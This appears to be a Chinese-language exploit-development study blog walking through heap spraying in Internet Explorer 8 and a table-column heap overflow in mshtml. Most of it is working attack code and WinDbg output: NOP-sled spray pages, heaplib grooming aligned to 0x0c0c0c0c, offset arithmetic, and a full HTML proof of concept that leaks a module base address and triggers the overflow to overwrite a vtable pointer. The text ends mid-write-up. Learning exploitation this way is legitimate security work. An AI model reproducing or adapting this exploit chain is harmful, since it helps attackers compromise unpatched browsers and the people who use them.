0x00002000    078abfe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00002000    078adfe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00002000    078affe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x0000e000    078b3fe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00002000    078c1fe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00002000    078c3fe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00002000    078c5fe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00002000    078c7fe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00002000    078c9fe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00029000    078cbfe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00012000    078f4fe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00002000    07906fe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00002000    07908fe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00002000    0790cfe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00002000    0790efe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00002000    07910fe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00002000    07912fe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00002000    07914fe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
......
0x00002000    0a0b2fe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00002000    0a0b4fe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00002000    0a0b6fe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0x00002000    0a0b8fe6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
```

因为我们要尽量多喷，让申请的堆空间尽量覆盖内存，所以不仅要尽量申请大块的内存，还要多申请
```
<html>
    <body>
        <script>
            var Shellcode = unescape('%u7546%u7a7a%u5379' + '%u6365%u7275%u7469' + '%u9079');
            var NopSlide = unescape('%u9090%u9090');
            var headersize = 20;
            var slack = headersize + Shellcode.length;
            while (NopSlide.length < slack) 
                NopSlide += NopSlide;
            var filler = NopSlide.substring(0, slack);
            var chunk = NopSlide.substring(0, NopSlide.length - slack);
            while (chunk.length + slack < 0x40000)
                chunk = chunk + chunk + filler;
            var memory = new Array();
            var Final = chunk + Shellcode;
            for (i = 0; i < 500; i++) {
                memory[i] = Final.substring(0, Final.length);
            }
            alert("allocation done");
        </script>
    </body>
</html>
```

从申请的堆间距来看，大部分是间隔`0x100000`的长度
```
0:013> s -a 0x00000000 L?7fffffff "FuzzySecurity"
05cf0fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
05df0fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
079b0fe4  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
08200fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
08300fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
08400fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
08500fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
08600fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
08700fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
09c50fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
09d50fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
09e50fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
09f50fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0a050fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0a150fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0a250fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0a350fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
......
28350fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
28450fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
28550fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
28650fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
28750fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
28850fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
```

根据文章中提到的几个特殊地址，我们进行查看，只有`0x08080808`有`0x90`数据
```
0:013> d 05050505
05050505  ???????? ???????? ???????? ????????
05050515  ???????? ???????? ???????? ????????
05050525  ???????? ???????? ???????? ????????
05050535  ???????? ???????? ???????? ????????
05050545  ???????? ???????? ???????? ????????
05050555  ???????? ???????? ???????? ????????
05050565  ???????? ???????? ???????? ????????
05050575  ???????? ???????? ???????? ????????
0:013> d 06060606
06060606  ???????? ???????? ???????? ????????
06060616  ???????? ???????? ???????? ????????
06060626  ???????? ???????? ???????? ????????
06060636  ???????? ???????? ???????? ????????
06060646  ???????? ???????? ???????? ????????
06060656  ???????? ???????? ???????? ????????
06060666  ???????? ???????? ???????? ????????
06060676  ???????? ???????? ???????? ????????
0:013> d 07070707
07070707  00000000 00000000 00000000 00000000
07070717  00000000 00000000 00000000 00000000
07070727  00000000 00000000 00000000 00000000
07070737  00000000 00000000 00000000 00000000
07070747  00000000 00000000 00000000 00000000
07070757  00000000 00000000 00000000 00000000
07070767  00000000 00000000 00000000 00000000
07070777  00000000 00000000 00000000 00000000
0:013> d 08080808
08080808  90909090 90909090 90909090 90909090
08080818  90909090 90909090 90909090 90909090
08080828  90909090 90909090 90909090 90909090
08080838  90909090 90909090 90909090 90909090
08080848  90909090 90909090 90909090 90909090
08080858  90909090 90909090 90909090 90909090
08080868  90909090 90909090 90909090 90909090
08080878  90909090 90909090 90909090 90909090
0:013> d 09090909
09090909  72c2bd48 34583961 c82b51df bd262368
09090919  c06c71d9 725f4d9d e996fc69 b163fc5c
09090929  38653206 f1fc6a68 8be13785 22033ccf
09090939  5b63f1c2 0ac46d05 b9ee0220 638deefb
09090949  8bdd8ec7 d2df0004 4361e074 be9cb780
09090959  83f1f4f5 b9da0983 6249b20f fff9e554
09090969  0e7b9ee7 8d7be0cd 0b541d40 b366c75b
09090979  90ac21d1 e5d41130 4be6c7ef 2de54000
```

再根据我们申请的堆空间范围随意查看，这个感觉就有些微妙了
```
0:013> d 20202020
20202020  90909090 90909090 90909090 90909090
20202030  90909090 90909090 90909090 90909090
20202040  90909090 90909090 90909090 90909090
20202050  90909090 90909090 90909090 90909090
20202060  90909090 90909090 90909090 90909090
20202070  90909090 90909090 90909090 90909090
20202080  90909090 90909090 90909090 90909090
20202090  90909090 90909090 90909090 90909090
0:013> d 21212121
21212121  90909090 90909090 90909090 90909090
21212131  90909090 90909090 90909090 90909090
21212141  90909090 90909090 90909090 90909090
21212151  90909090 90909090 90909090 90909090
21212161  90909090 90909090 90909090 90909090
21212171  90909090 90909090 90909090 90909090
21212181  90909090 90909090 90909090 90909090
21212191  90909090 90909090 90909090 90909090
0:013> d 22222222
22222222  90909090 90909090 90909090 90909090
22222232  90909090 90909090 90909090 90909090
22222242  90909090 90909090 90909090 90909090
22222252  90909090 90909090 90909090 90909090
22222262  90909090 90909090 90909090 90909090
22222272  90909090 90909090 90909090 90909090
22222282  90909090 90909090 90909090 90909090
22222292  90909090 90909090 90909090 90909090
```

这个范围好像覆盖的有点高了，那么我们尝试喷射的更多，把喷射的循环改为`1000`次，改`2000`次会爆内存
```
for (i = 0; i < 1000; i++) {
    memory[i] = Final.substring(0, Final.length);
}
```

喷完后的堆范围还行
```
0:013> s -a 0x00000000 L?7fffffff "FuzzySecurity"
05cb0fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
05db0fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0753afe4  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
08030fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
08130fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
08230fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
......
47680fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
47780fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
47880fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
47980fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
47a80fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
47b80fee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
```

我们再次尝试查看一下蛙师傅提到的可预测的地址，看起来有一丝尴尬，不过文章中提到的是IE7，我这是IE8
```
0:013> d 05050505
05050505  00000000 00000000 00000000 00000000
05050515  00000000 00000000 00000000 00000000
05050525  00000000 00000000 00000000 00000000
05050535  00000000 00000000 00000000 00000000
05050545  00000000 00000000 00000000 00000000
05050555  00000000 00000000 00000000 00000000
05050565  00000000 00000000 00000000 00000000
05050575  00000000 00000000 00000000 00000000
0:013> d 06060606
06060606  ???????? ???????? ???????? ????????
06060616  ???????? ???????? ???????? ????????
06060626  ???????? ???????? ???????? ????????
06060636  ???????? ???????? ???????? ????????
06060646  ???????? ???????? ???????? ????????
06060656  ???????? ???????? ???????? ????????
06060666  ???????? ???????? ???????? ????????
06060676  ???????? ???????? ???????? ????????
0:013> d 07070707
07070707  00000000 00000000 00000000 00000000
07070717  00000000 00000000 00000000 00000000
07070727  00000000 00000000 00000000 00000000
07070737  00000000 00000000 00000000 00000000
07070747  00000000 00000000 00000000 00000000
07070757  00000000 00000000 00000000 00000000
07070767  00000000 00000000 00000000 00000000
07070777  00000000 00000000 00000000 00000000
0:013> d 08080808
08080808  ???????? ???????? ???????? ????????
08080818  ???????? ???????? ???????? ????????
08080828  ???????? ???????? ???????? ????????
08080838  ???????? ???????? ???????? ????????
08080848  ???????? ???????? ???????? ????????
08080858  ???????? ???????? ???????? ????????
08080868  ???????? ???????? ???????? ????????
08080878  ???????? ???????? ???????? ????????
0:013> d 09090909
09090909  7b007371 8f007b7b 88003d75 8e003c79
09090919  91003e78 9c003b7e 82003b7b 8e005c5f
09090929  94004768 8e00407c 92005775 89005675
09090939  8d006175 8300647e 7a007c7e 7c00608a
09090949  b400789a b7003e8d ba003f96 bb003b93
09090959  bb003e93 bc003e96 b8003d95 bd003e99
09090969  cb003d98 c9003b98 a9003d9e b2004388
09090979  af00418d b9004c98 bc004093 bb004294
```

所以为了能看到IE8的堆喷效果，我们继续学习，依旧是看安全客的`32位下的堆喷射技术`
- https://www.anquanke.com/post/id/87048

根据文章中的描述，我们需要先填满缓存，这样就不会由缓存表来进行堆分配



其中提到了一个`heaplib.js`，代码比较长，不全贴出来了，都是函数，用于填满所有缓存
- http://pwdme.cc/heaplib.js

这个JS脚本的用法可以看看这篇文章，我也是按照这篇文章的教程来学习的，先测一下代码，看看能覆盖到那些范围以及在内存中的分布情况
```
<!DOCTYPE html>
<html>
<head>
    <script type="text/javascript" src="heaplib.js"></script>
</head>
<body>
    <script type="text/javascript">
        var heap_obj = new heapLib.ie(0x10000);
        var code = unescape("%ucccc");
        while (code.length < 400) code += code;
        code = code.substring(0, 400);
        var rop = unescape("%u4141%u4141%u4242%u4242%u4343%u4343%u4444%u4444%u4545%u4545%u4646%u4646%u4747%u4747%u4848%u4848");
        var pad = unescape("%u9090%u9090");
        while (pad.length < 0x1000) pad += pad;
        offset_length = 0x5F6;
        junk_offset = pad.substring(0, offset_length);
        var shellcode = junk_offset + rop + code + pad.substring(0, 0x800 - code.length - junk_offset.length - rop.length);
        while (shellcode.length < 0x40000) shellcode += shellcode;
        var block = shellcode.substring(2, 0x40000 - 0x21);
        for (var i = 0; i < 500; i++) {
            heap_obj.alloc(block);
        }
        alert("HeapLib done");    
    </script>
</body>
</html>
```

查看关键地址，不得不说，效果很好，关于堆这一块的知识还是需要好好学习
```
0:011> dd 0c0c0c0c L30
0c0c0c0c  41414141 42424242 43434343 44444444
0c0c0c1c  45454545 46464646 47474747 48484848
0c0c0c2c  cccccccc cccccccc cccccccc cccccccc
0c0c0c3c  cccccccc cccccccc cccccccc cccccccc
0c0c0c4c  cccccccc cccccccc cccccccc cccccccc
0c0c0c5c  cccccccc cccccccc cccccccc cccccccc
0c0c0c6c  cccccccc cccccccc cccccccc cccccccc
0c0c0c7c  cccccccc cccccccc cccccccc cccccccc
0c0c0c8c  cccccccc cccccccc cccccccc cccccccc
0c0c0c9c  cccccccc cccccccc cccccccc cccccccc
0c0c0cac  cccccccc cccccccc cccccccc cccccccc
0c0c0cbc  cccccccc cccccccc cccccccc cccccccc
```

这是堆块信息，很显然的，`0c0c0c0c`在堆块`0c0c0018`中
```
0:011> !heap -flt s 7ffc0
    _HEAP @ 380000
      HEAP_ENTRY Size Prev Flags    UserPtr UserSize - state
        00f90018 10000 0000  [00]   00f90020    7ffc0 - (busy VirtualAlloc)
        01010018 10000 0000  [00]   01010020    7ffc0 - (busy VirtualAlloc)
        022c0018 10000 0000  [00]   022c0020    7ffc0 - (busy VirtualAlloc)
        02340018 10000 0000  [00]   02340020    7ffc0 - (busy VirtualAlloc)
        02920018 10000 0000  [00]   02920020    7ffc0 - (busy VirtualAlloc)
        029a0018 10000 0000  [00]   029a0020    7ffc0 - (busy VirtualAlloc)
        ......
        0c0c0018 10000 0000  [00]   0c0c0020    7ffc0 - (busy VirtualAlloc)
        0c140018 10000 0000  [00]   0c140020    7ffc0 - (busy VirtualAlloc)
        ......
        147c0018 10000 0000  [00]   147c0020    7ffc0 - (busy VirtualAlloc)
        14840018 10000 0000  [00]   14840020    7ffc0 - (busy VirtualAlloc)
    _HEAP @ 10000
    _HEAP @ 300000
    _HEAP @ 980000
    _HEAP @ 2780000
    _HEAP @ 28e0000
```

或者可以通过查看指定堆块的形式
```
0:011> !heap -p -a 0c0c0c0c
    address 0c0c0c0c found in
    _HEAP @ 380000
      HEAP_ENTRY Size Prev Flags    UserPtr UserSize - state
        0c0c0018 10000 0000  [00]   0c0c0020    7ffc0 - (busy VirtualAlloc)
```

注意到代码中有一句关于长度的，之所以取这个值是有讲究的
```
offset_length = 0x5F6;
```

首先我们的堆块信息如下，堆块起始地址为`0c0c0018`，用户可写起始地址为`0c0c0020`，中间隔着`0x8`字节
```
HEAP_ENTRY Size Prev Flags    UserPtr UserSize - state
  0c0c0018 10000 0000  [00]   0c0c0020    7ffc0 - (busy VirtualAlloc)
```

那么就可以计算出我们需要填充的长度了
```
>>> hex((0x0c0c0c0c - 0x0c0c0018 - 0x8) / 2)
'0x5f6'
```

准确填充长度后，我们就可以开始填充Shellcode了
```
var shellcode = junk_offset + rop + code + pad.substring(0, 0x800 - code.length - junk_offset.length - rop.length);
```

堆喷地址的问题搞定，我们来覆盖虚表指针吧，依旧是计算上面的数据，可以看到想要覆盖虚表指针，就需要将`span`改为至少`39`及以上的值

我们需要通过代码来计算让`width * 100`属于`0c0c0018 - 0c0c0c0c`之间
```
for i in range(2021130, 2021161):
	arg = i * 100
	if arg > 0x0c0c0018 & arg < 0x0c0c0c0c:
		print arg / 100, hex(arg)
输出：
2021130 0xc0bffe8
2021131 0xc0c004c
2021132 0xc0c00b0
2021133 0xc0c0114
2021134 0xc0c0178
2021135 0xc0c01dc
2021136 0xc0c0240
2021137 0xc0c02a4
2021138 0xc0c0308
2021139 0xc0c036c
2021140 0xc0c03d0
2021141 0xc0c0434
2021142 0xc0c0498
2021143 0xc0c04fc
2021144 0xc0c0560
2021145 0xc0c05c4
2021146 0xc0c0628
2021147 0xc0c068c
2021148 0xc0c06f0
2021149 0xc0c0754
2021150 0xc0c07b8
2021151 0xc0c081c
2021152 0xc0c0880
2021153 0xc0c08e4
2021154 0xc0c0948
2021155 0xc0c09ac
2021156 0xc0c0a10
2021157 0xc0c0a74
2021158 0xc0c0ad8
2021159 0xc0c0b3c
2021160 0xc0c0ba0
```

我们选取中间的`2021140 0xc0c03d0`
```
<html>
<body>
    <div id="evil"></div>
    <script>
        var free = "EEEE";
        while (free.length < 480) free += free;
        var string1 = "AAAA";
        while (string1.length < 480) string1 += string1;
        var string2 = "BBBB";
        while (string2.length < 480) string2 += string2;
        var fr = new Array();
        var al = new Array();
        var div_container = document.getElementById("evil");
        div_container.style.cssText = "display:none";
        for (var i = 0; i < 500; i+=2) {
            fr[i] = free.substring(0, (0x100 - 6) / 2);
            al[i] = string1.substring(0, (0x100 - 6) / 2);
            al[i+1] = string2.substring(0, (0x100 - 6) / 2);
            var obj = document.createElement("button");
            div_container.appendChild(obj);
        }
        alert("1");
        for (var i = 200; i < 500; i += 2) {
            fr[i] = null;
            CollectGarbage();
        }
    </script>
        <table style="table-layout:fixed" ><col id="0" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="1" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="2" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="3" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="4" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="5" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="6" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="7" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="8" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="9" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="10" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="11" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="12" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="13" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="14" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="15" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="16" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="17" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="18" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="19" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="20" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="21" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="22" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="23" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="24" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="25" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="26" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="27" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="28" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="29" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="30" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="31" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="32" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="33" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="34" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="35" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="36" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="37" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="38" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="39" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="40" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="41" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="42" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="43" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="44" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="45" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="46" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="47" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="48" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="49" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="50" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="51" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="52" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="53" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="54" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="55" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="56" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="57" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="58" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="59" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="60" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="61" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="62" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="63" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="64" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="65" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="66" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="67" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="68" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="69" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="70" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="71" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="72" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="73" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="74" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="75" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="76" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="77" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="78" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="79" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="80" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="81" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="82" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="83" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="84" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="85" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="86" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="87" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="88" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="89" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="90" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="91" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="92" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="93" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="94" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="95" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="96" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="97" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="98" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="99" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="100" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="101" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="102" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="103" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="104" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="105" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="106" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="107" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="108" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="109" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="110" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="111" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="112" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="113" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="114" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="115" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="116" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="117" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="118" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="119" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="120" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="121" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="122" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="123" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="124" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="125" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="126" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="127" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="128" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="129" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="130" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="131" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="132" width="41" span="9" >&nbsp </col></table>
    <script>
		function leak() {
            alert("2");
            var leak_col = document.getElementById("132");
            leak_col.width = "41";
            leak_col.span = "29";
        }
		function get_leak() {
			var str_addr = -1;
			for (var i = 0; i < 500; i++) {
				if (al[i].length > (0x100 - 6) / 2) {
					alert(al[i].length.toString(16))
					var leak = al[i].substring((0x100 - 6) / 2 + (2 + 8) / 2, (0x100 - 6) / 2 + (2 + 8 + 4) / 2);
					str_addr = parseInt(leak.charCodeAt(1).toString(16) + leak.charCodeAt(0).toString(16), 16);
					str_addr = str_addr - 0x1584f8;
					var hex = str_addr.toString(16);
					alert(hex);
					break;
				}
            }
        }
        function trigger_overflow() {
            alert("3");
            var evil_col = document.getElementById("132");
            evil_col.width = "2021140";
            evil_col.span = "39";
            alert("4");
        }
    	setTimeout("leak()", 400);
        setTimeout("get_leak()", 450);
        setTimeout("trigger_overflow()", 700);
    </script>
</body>
</html>
```

在弹出`1`的时候附加Windbg，然后运行起来，给漏洞堆分配的地方下断点，到`2`的时候弹窗，此时最后输出的一个堆地址即是溢出堆
```
bu mshtml!CTableLayout::CalculateMinMax+0x18C ".echo vulheap;dd poi(ebx+9c) l4;g"
```

此时堆数据如下



我们按`g`然后点击`2`的弹窗继续运行，会出现弹窗显示加载基址



点击确定再点击弹窗`3`，我们观察溢出后的数据

这是溢出前的数据，注意虚表指针，我标出来了
```
